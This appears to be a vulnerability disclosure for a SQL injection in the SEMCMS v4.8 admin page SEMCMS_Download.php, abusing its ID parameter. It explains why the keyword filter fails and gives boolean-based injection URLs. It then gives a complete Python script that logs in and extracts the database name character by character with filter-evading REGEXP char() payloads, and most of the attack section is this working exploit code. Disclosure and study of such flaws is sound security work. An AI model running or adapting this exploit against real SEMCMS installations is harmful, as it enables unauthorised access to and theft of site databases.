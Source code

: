 # Semcms v4.8 SEMCMS_Download.php SQL Injection  w（ID）



- **Exploit Title:**  Semcms v4.8 SEMCMS_Download.php SQL Injection with argument (ID)
- **Date:** 2024-05-24
- **Vendor Homepage:** http://www.sem-cms.com/
- **Software Link:** [https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0](http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip)
- **Version:** Semcmsv4.8



v4.8zip download link:http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip



## Vulnerability description

A SQL injection vulnerability exists in the SEMCMS v4.8 . The vulnerability results from a lack of validation of externally entered SQL statements in the SEMCMS_Download.php ,parameters ID . An attacker without an account could exploit this vulnerability to execute illegal SQL commands to obtain sensitive data from the database.



## Vulnerability analysis



filter function:

 the  code  in  include/contor.php  line 8

In the include directory of the project source code, there is a contorl. PHP file. When searching for the input_check_sql function in the file, you will find that it is a global SQL query string filtering function that uses regularization to match a series of commonly used characters in SQL statements, preg_match ('select | and | insert |=|% |<| between | update | \ '| \ * | union | intro | load_file | outfile/i', $sqlstr);
Select, and, insert,%,=,<, between, update, *, union, into, ', etc. are all filtered, and all SQL query statement strings will be passed as parameters to the $str variable before being called by the verify_str() function. When the user inputs, the verify_str() inner layer calls the input_check_sql() function for verification, which is like a global SQL statement validator.

![image-20240524182620951](img/image-20240524182620951.png)

```
function inject_check_sql($sql_str) {

     return preg_match('/select|and|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str); 
} 
function verify_str($str) { 
       if(inject_check_sql($str)) {
           exit('Sorry,You do this is wrong! (.-.)');
        } 
    return $str;
} 


```





The vulnerability code is:

```
}elseif($type=="edit"){
    
 $row = mysqli_fetch_array($db_conn->query("SELECT * FROM sc_download WHERE ID=".$_GET["ID"]));
 
?>
```

![image-20240524183311769](img/image-20240524183311769.png)



payload: ID=1'  

 inject_check_sql() is called to determine whether sql injection exists

It runs inject_check_sql() statements through a series of contains, the logical chain is:：SEMCMS_Download.php->SEMCMS_TOP_include.php-> ./Include/inc.php->../Include/contorl.php

![image-20240524184853078](img/image-20240524184853078.png)



http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID=-1%20or%201

http://127.0.0.1:8002/e2aLvD_Admin/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID=-1%20or%200

Through this Boolean judgment, it is found that if the logic judgment is true, the result is displayed, otherwise there is no content, and sql injection exists through this judgment

![image-20240524184423423](img/image-20240524184423423.png)

![image-20240524184504426](img/image-20240524184504426.png)



Using python scripts, sql injection is performed to detect the database:

```
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#!/usr/bin/python
# -*- coding: UTF-8 -*-
import requests

session = requests.session()
def login(url, username, password):
    burp0_url = url + "/SEMCMS_Top_include.php?CF=users&Class=login"
    burp0_cookies = {"scusername": "%E6%80%BB%E8%B4%A6%E5%8F%B7", "scuseradmin": "Admin",
                     "scuserpass": "c4ca4238a0b923820dcc509a6f75849b"}
    burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0",
                     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
                     "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                     "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded",
                     "Origin": "http://127.0.0.1:8002", "Connection": "close",
                     "Referer": "http://127.0.0.1:8002/e2aLvD_Admin/index.html", "Upgrade-Insecure-Requests": "1",
                     "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin",
                     "Sec-Fetch-User": "?1"}
    burp0_data = {"UserName": username, "UserPass": password, "checkbox": "on", "x": "39", "y": "15"}
    re = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
    if "欢迎使用黑蚂蚁" in re.text:
        print("登录成功")
    else:
        print("登录失败")


def get_db_len(url):
    """
	get database length
	"""
    for i in range(1, 50):
        i = str(i)
        if len(i) == 1:
            payload = "-1 or length(database()) REGEXP char(94,{},36)".format(ord(i))

        else:
            a = i[0]
            b = i[1]
            payload = "-1 or length(database()) REGEXP char(94,{},{},36)".format(ord(a), ord(b))

        url1 = url + payload
        resp = session.get(url1, timeout=3)
        if ".jpg" in resp.text:
            print("存在漏洞:",i)
            print(url1)
            return int(i)



def get_db_name(url):

    db_len = get_db_len(url)
    print("数据库长度:",db_len)


    print("数据库名:")
    for i in range(1, db_len + 1):
        for j in range(32, 127):
            j = str(j)
            a = j[0]
            b = j[1]
            if len(j) == 2:
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a),
                                                                                                 ord(b))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},36)".format(i, ord(a), ord(b)))
            else:
                c = j[2]
                payload = "-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a),
                                                                                                    ord(b),
                                                                                                    ord(c))

                # print("-1 or ascii(substr(database(),{},1)) REGEXP char(94,{},{},{},36)".format(i, ord(a), ord(b),

            url1 = url + payload
            resp = session.get(url1, timeout=3)

            if ".jpg" in resp.text:
                print(chr(int(j)))
                print(url1)


# url = input("请输入后台url:")
# username = input("请输入用户名:")
# password = input("请输入密码:")
url="http://127.0.0.1:8002/e2aLvD_Admin"
# mode_len = session.get(url_test="", timeout=3)
username="Admin"
password='1'
login(url=url, username=username, password=password)

path3="/SEMCMS_Download.php?type=edit&lgid=1&page=1&ID="
get_db_name(url=url + path3)
```



![image-20240524185958011](img/image-20240524185958011.png)

![image-20240524190140990](img/image-20240524190140990.png)